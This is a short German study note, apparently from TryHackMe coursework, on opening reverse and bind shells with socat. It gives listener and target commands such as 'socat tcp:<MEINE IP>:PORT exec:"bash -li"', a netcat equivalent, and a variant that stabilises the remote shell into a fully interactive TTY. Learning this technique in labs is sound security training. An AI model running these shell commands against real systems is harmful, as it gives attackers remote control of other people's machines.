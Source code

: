 ### socat-Reverse & Bind Shell

#### Reverse Shell

* Listener (bei mir):

	socat tcp-l:<PORT> - # Bindestrich nicht vergessen

äquivalent zu ``nc -lvnp PORT``

* Gegenstück (bei Ziel)

	socat tcp:<MEINE IP>:PORT exec:"bash -li"

#### Bind Shell

* Listener (bei Ziel):

	socat tcp-l:PORT exec:"bash -li"


* Gegenstück (bei mir):

	socat tcp:<ZIEL IP>:<ZIEL PORT> - # Bindestrich nicht vergessen

#### socat-Shell-Stabilisierung

* per ``socat`` erreicht man eine vollständig/normal stabile und interaktive Linux-Shell (funktioniert nicht mit Windows)

⇒ man kann [:Linux:ssh](../ssh.md) benutzen 

* Für den Listener (bei mir):

	socat tcp-l:PORT file:`tty`,raw,echo=0


* Listener und „current TTY“ werden verbunden, dann „``echo`` deaktiviert“, vgl. [#strg-c-aktivieren](#Linux:TryHackMe:Reverse & Bind Shells)


* Gegenstück (bei Ziel):

	socat tcp:<MEINE IP>:PORT exec:"bash -li",pty,stderr,sigint,setsid,sane


* ``tcp:…:…`` Stelle Verbindung zum Listener her
* ``exec:…`` Starte interaktive ``bash``-Sitzung

![](./Reverse_&_Bind_Shells/pasted_image002.png)
